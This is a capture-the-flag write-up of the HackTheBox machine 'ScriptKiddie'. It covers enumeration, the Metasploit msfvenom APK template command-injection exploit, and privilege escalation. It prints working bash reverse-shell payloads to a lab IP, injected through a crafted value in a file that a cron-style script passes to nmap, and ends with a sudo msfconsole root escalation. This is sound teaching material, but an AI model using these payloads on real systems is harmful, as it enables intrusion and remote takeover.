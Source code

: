 # HackTheBox - ScriptKiddie

## Introduction
<p align="justify">
Hello Friend! You have come a long way following me here. So let me show you how i solved this challenge named <b><u>ScriptKiddie</u></b>. You with me ? Good ! Let's do it.
</p>

### 1. Enumeration
When I joined the machine, I got an *ip_address* of **10.10.10.226**. The first thing i tend to do when i have an *ip_address* is to see if a http website is up and running. So i manually visited the site but got nothing.

Then i fired up my `nmap` scan to see all the active ports it can find.

```bash
nmap -sC -sV 10.10.10.226 -oN recon/nmap_initial
```

I often scan top ports and save its response for future references as well as a quick guide for me. Again i fired up another `nmap` scan to look for all open ports.

```bash
nmap -p- 10.10.10.226 -oN recon/nmap_all_ports
```

I let it run in the background. All ports scan is just for the case not to miss anything.

![](2021-05-07-09-13-35.png)

First `nmap` scan returned me with an output saying there's a `ssh` service running on port *22*. And the interesting thing is there is a `http` service running on port *5000*. `Nmap` also said that this is a ***Werkzeug httpd 0.16.1*** server.

I thought as the title suggests, this box may have a well known vulnerability which should be exploited. So i rushed and searched for **Werkzeug** exploit.

```bash
searchsploit Werkzeug
```

![](2021-05-07-09-19-16.png)

Indeed there is an exploit for **Werkzeug** server leading to *RCE*. I quickly copied the exploit.

```bash
searchsploit -m multiple/remote/43905.py
```

I decided not to be a complete script kiddie and i took a sneak peek at the exploit. I quickly found out that the exploit only works if debug mode is enabled. If the debug mode is enabled, then you will have a */console* page.

```bash
curl http://10.10.10.226:5000/console
```

I saw there wasn't any page called console. Maybe the */console* endpoint is ofuscated, so let's have a fuzzing here

```bash
ffuf -u http://10.10.10.226:5000/FUZZ -w /mnt/hack/wordlist/common.txt
```

![](2021-05-07-09-25-57.png)

I didn't find anything so i concluded that the site does not have debug mode enabled and to our dismay, our exploit for quick *RCE* does not work here. :disappointed:

Let's take a look at the webpage. There are three sections for **Nmap**, **msfvenom** and **searchsploit**. Looking at the website, guess we have lots to try for exploits like *command injection*, *RFI*, *LFI*, *File upload* vuln etc. I did all the tries just to find none of my method worked. I was quite frustrated at that moment.
<br><br>

### 2. Malicious Payload
Then *msfvenom* section of website caught my attention.

![](2021-05-09-22-17-48.png)

I saw that it is executing `msfvenom` to generate exploit and it takes templates. I searched for template injection, and to my surprise there was a well known command injection vulnerability in Metasploit's `msfvenom` payload generator, when using a crafted **APK** file as an android payload template. To trigger this vulnerability, the victim should do following
```bash
msfvenom -p android/<.....> -x
```

I also found a way to generate the malicious template file. I quickly fired up `msfconsole`.

![](2021-05-09-22-29-36.png)

```bash
msf> use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
msf> set lhost <ip_addr>
msf> set lport 8888
msf> set rhosts 10.10.10.226
msf> set rport 5000
msf> exploit
```

This created a template for me to use in website.

Now i fired up `netcat` to listen to the port
```bash
nc -vnlp 8888
```
Then i uploaded the file selecting OS as **android**, *lhost* as my ip and template as my file generated by `msfconsole`.

![](2021-05-09-23-11-18.png)

***Oh yes !!! We got a reverse shell.***

Changing it to interactive shell,
```bash
script -qc /bin/bash /dev/null
```

Exploring the system, We completed our first checkpoint i.e. user flag.

![](2021-05-09-22-41-22.png)

Now our next target is going to be **root** flag. You there with me on this ?
<br><br>

### 3. Privilege Escalation
Now we are logged in as user `kid` in the server and it didn't took us time to find out how we have very low privileges. Exploring the system we find out that there are two users in system `kid` and `pwn`. Looking at files that `pwn` owns, there is a file `scanlosers.sh` which runs `nmap` against a file named `hackers`. Ahh! Our ticket to privilege escalation. I was being a complete **script kiddie** there and fired a netcat listener.

```bash
nc -vnllp 9999
```

I got a reverse shell script which others said worked in this box and fired it
```bash
echo ";/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.131/9999 0>&1' #" >> hackers
```
But to my shock, it didn't work out for me. I tried different way of inserting this payload in the file *hackers*, but neither payload worked nor i saw anything written in the file. I was way to much frustrated and i took a break.

I came back and decided to look at the script *scanlosers.sh*

![](2021-05-09-22-54-12.png)

Now we have all our answers. The script is taking all the thing from third section to the last *( with `cut` operation)* and providing it to `nmap`. Now first our payload must be at third section, and it should break out of `nmap` command to run our provided command. So for testing, let's see if we can create a file

```bash
echo "a b ;/bin/bash -c 'touch random.txt' #" >> hackers
```

![](2021-05-09-22-58-18.png)

Surprise !! We have our file created.

Now our payload works if we craft with two spaces before our previous payload. So our payload becomes like this
```bash
echo "<space><space>;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.131/9999 0>&1' #" >> hackers
```

The actual payload looks like this 
```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.131/9999 0>&1' #" >> hackers
```

![](2021-05-09-23-01-43.png)

Ad we got a reverse shell as `pwn` user.

Checking for permissions that `pwn` user have
```
sudo -l
```
![](2021-05-09-23-03-57.png)

We saw that *pwn* user can run `msfconsole` as root without a password.

```
sudo msfconsole
```
Now using `/bin/bash` we get a shell as root user. We can find the root flag on */root/root.txt*.

![](2021-05-09-23-07-59.png)

***lesson learnt:*** *Never be a script kiddie !!!*